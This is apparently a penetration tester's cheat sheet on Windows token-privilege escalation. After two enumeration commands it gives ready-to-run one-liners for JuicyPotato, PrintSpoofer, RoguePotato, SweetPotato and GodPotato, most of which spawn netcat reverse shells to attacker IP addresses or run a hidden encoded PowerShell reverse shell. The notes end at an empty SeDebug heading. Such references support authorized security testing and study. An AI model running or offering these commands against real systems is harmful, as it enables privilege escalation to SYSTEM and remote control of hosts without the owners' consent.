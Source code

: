 ```yaml
---
tags:
  - Local
  - Privilege-Escalation
  - SeAssignPrimaryPrivilege
  - SeBackupPrivilege
  - SeCreateTokenPrivilege
  - SeDebugPrivilege
  - SeImpersonatePrivilege
  - SeLoadDriverPrivilege
  - SeRestorePrivilege
  - SeTakeOwnershipPrivilege
  - SeTcbPrivilege
  - AD
---
```

## identify
---
```batch
whoami /priv
```
Or sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
```powershell
accesschk.exe -p
```

## Exploit
---
#### SeImpersonate & SeAssignPrimaryToken
Windows Server 2016 and under: 
**JuicyPotato** [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.119 5555 -e cmd.exe" -t *
```
Windows Server 2019 and on:
**PrintSpoofer**: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
Spawn shell over new process *need stable shell*
```cmd
PrintSpoofer.exe -i -c cmd.exe
```
Spawn revshell
```cmd
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
**RoguePotato:** [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
```
RoguePotato.exe -r <IP> -e "C:\Windows\Tasks\nc.exe <IP> <port> -e cmd.exe" -l 9999
```
**SweetPotato**: [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)
```cmd
SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <ENCODED REVSHELL>"
```
OR
```cmd
SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```
**GodPotato**: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
```cmd
GodPotato.exe -cmd "cmd /c whoami"
```
```cmd
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

#### SeDebug
